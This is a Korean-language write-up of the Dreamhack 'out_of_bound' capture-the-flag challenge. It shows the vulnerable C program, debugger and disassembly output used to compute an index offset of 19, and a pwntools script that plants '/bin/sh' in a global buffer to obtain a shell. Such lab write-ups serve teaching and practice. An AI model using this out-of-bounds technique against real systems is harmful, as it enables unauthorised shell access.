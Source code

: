 # [Dreamhack] out_of_bound 풀이

---

# C 코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler() {

    puts("TIME OUT");
    exit(-1);
}

void initialize() {

    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main() {
    
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

전역 변수로 char형 변수 name[16]이랑 포인터인 command를 선언한다.

메인 함수를 보면 첫번째로 name에 Admin name을 입력받는다.

그리고 숫자를 입력받고 포인터 배열에 있는 커맨드를 불러와서 system 명령어로 실행시킨다.

scanf에서 idx를 입력받고 sysyem함수에서 command를 불러올때 idx값이 배열의 크기를 넘는지 검사하는 부분이 없기때문에 out of bound 취약점이 발생하는것을 알 수 있다.

name에 “/bin/sh”을 입력하고 idx에 스택에 변수 name이 몇 번째에 있는지 입력해주면 해결될꺼같다.

---

# 파일 분석

우리가 디버깅을 하면서 알아내야 하는 정보를 정리해보자

- Admin name의 위치와 command 배열의 오프셋
- name에서 입력할때 저장되는 주소

디버깅은 peda를 사용했습니다.

### Admin name의 위치와 command 배열의 오프셋구하기

---

Admin name을 입력받는곳에서 aaaa를 입력한 상태이다 .

```nasm
[----------------------------------registers-----------------------------------]
EAX: 0x5 
EBX: 0xf7f9e000 --> 0x229dac 
ECX: 0x804a0ac ("aaaa\n")
EDX: 0x10 
ESI: 0xffffcfb4 --> 0xffffd191 ("/home/zergsung/pwn/dreamhack/out_of_baound/out_of_bound")
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0xffffcee8 --> 0xf7ffd020 --> 0xf7ffda40 --> 0x0 
ESP: 0xffffcec0 --> 0x0 
EIP: 0x804870d (<main+66>:	add    esp,0x10)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048701 <main+54>:	push   0x804a0ac
   0x8048706 <main+59>:	push   0x0
   0x8048708 <main+61>:	call   0x80484a0 <read@plt>
=> 0x804870d <main+66>:	add    esp,0x10
   0x8048710 <main+69>:	sub    esp,0xc
   0x8048713 <main+72>:	push   0x804881e
   0x8048718 <main+77>:	call   0x80484b0 <printf@plt>
   0x804871d <main+82>:	add    esp,0x10
[------------------------------------stack-------------------------------------]
0000| 0xffffcec0 --> 0x0 
0004| 0xffffcec4 --> 0x804a0ac ("aaaa\n")
0008| 0xffffcec8 --> 0x10 
0012| 0xffffcecc --> 0x80486ec (<main+33>:	sub    esp,0xc)
0016| 0xffffced0 --> 0xffffcf10 --> 0xf7f9e000 --> 0x229dac 
0020| 0xffffced4 --> 0xf7fbe66c --> 0xf7ffdba0 --> 0xf7fbe780 --> 0xf7ffda40 --> 0x0 
0024| 0xffffced8 --> 0xf7fbeb20 --> 0xf7d8ecc6 ("GLIBC_PRIVATE")
0028| 0xffffcedc --> 0xe4b24e00 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804870d in main ()
```

ECX를 보면 0x804a0ac에 aaaa가 저장되는것을 알 수 있다. 

```nasm
main 함수
0x080486cb <+0>:	lea    ecx,[esp+0x4]
0x080486cf <+4>:	and    esp,0xfffffff0
0x080486d2 <+7>:	push   DWORD PTR [ecx-0x4]
0x080486d5 <+10>:	push   ebp
0x080486d6 <+11>:	mov    ebp,esp
0x080486d8 <+13>:	push   ecx
0x080486d9 <+14>:	sub    esp,0x14
0x080486dc <+17>:	mov    eax,gs:0x14
0x080486e2 <+23>:	mov    DWORD PTR [ebp-0xc],eax
0x080486e5 <+26>:	xor    eax,eax
0x080486e7 <+28>:	call   0x804867b <initialize>
0x080486ec <+33>:	sub    esp,0xc
0x080486ef <+36>:	push   0x8048811
0x080486f4 <+41>:	call   0x80484b0 <printf@plt>
0x080486f9 <+46>:	add    esp,0x10
0x080486fc <+49>:	sub    esp,0x4
0x080486ff <+52>:	push   0x10
0x08048701 <+54>:	push   0x804a0ac
0x08048706 <+59>:	push   0x0
0x08048708 <+61>:	call   0x80484a0 <read@plt>
0x0804870d <+66>:	add    esp,0x10
0x08048710 <+69>:	sub    esp,0xc
0x08048713 <+72>:	push   0x804881e
0x08048718 <+77>:	call   0x80484b0 <printf@plt>
0x0804871d <+82>:	add    esp,0x10
0x08048720 <+85>:	sub    esp,0x8
0x08048723 <+88>:	lea    eax,[ebp-0x10]
0x08048726 <+91>:	push   eax
0x08048727 <+92>:	push   0x8048832
0x0804872c <+97>:	call   0x8048540 <__isoc99_scanf@plt>
0x08048731 <+102>:	add    esp,0x10
0x08048734 <+105>:	mov    eax,DWORD PTR [ebp-0x10]
0x08048737 <+108>:	mov    eax,DWORD PTR [eax*4+0x804a060]
0x0804873e <+115>:	sub    esp,0xc
0x08048741 <+118>:	push   eax
0x08048742 <+119>:	call   0x8048500 <system@plt>
0x08048747 <+124>:	add    esp,0x10
0x0804874a <+127>:	mov    eax,0x0
0x0804874f <+132>:	mov    edx,DWORD PTR [ebp-0xc]
0x08048752 <+135>:	xor    edx,DWORD PTR gs:0x14
0x08048759 <+142>:	je     0x8048760 <main+149>
0x0804875b <+144>:	call   0x80484e0 <__stack_chk_fail@plt>
0x08048760 <+149>:	mov    ecx,DWORD PTR [ebp-0x4]
0x08048763 <+152>:	leave  
0x08048764 <+153>:	lea    esp,[ecx-0x4]
0x08048767 <+156>:	ret    
End of assembler dump.
```

위에 main함수의 108번째줄을 보면 0x804a060에서 가져오는것을 볼수있다.

그럼 (0x804a0ac - 0x804a060)/4 를 해주면 오프셋을 구할 수 있다. 4를 나눠주는이유는 포인터 배열이 하나당 4바이트를 할당하기 때문이다. 

계산해보면 19가 나온다.

### name에 쉘코드 삽입하기

---

c언어 코드를 보면 command 배열이 포인터로 선언되는것을 알수있다. 그렇기 때문에 Admin name에 바로 쉘코드를 삽입하면 그 쉘코드가 16진수로 바뀐주소에 있는값을 가져오기 때문에 오류가 난다. 그렇기 때문에 우리는 먼저 쉘코드가 있을 주소 4바이트를 입력한후 그 주소에 쉘코드를 써주면 된다.

그렇기에 쉘코드는 name의 주소에 name의 주소값을 더한 4바이트 큰 name + 4 에 위치하게 된다. 

그럼 우린입력할때 name주소+4다음 쉘코드를 입력하면 될것이다.

이제 모든 정보를 얻었으니 익스플로잇 코드를 짜보자.

---

# Exploit

```python
from pwn import *

#p = remote("host3.dreamhack.games", 9469)
p = process("./oob")

shell = b"/bin/sh"
name = 0x804a0ac

p.recvuntil(b'name:')

payload = p32(name+4) + shell

p.sendline(payload)
p.recvuntil(b'want?:')
p.sendline(b'19')
p.interactive()
```

![Untitled](/3%EC%A3%BC%EC%B0%A8/OOB/%5BDreamhack%5D%20out_of_bound%20%E1%84%91%E1%85%AE%E1%86%AF%E1%84%8B%E1%85%B5/Untitled.png)

쉘이 따진 걸 볼 수 있다.
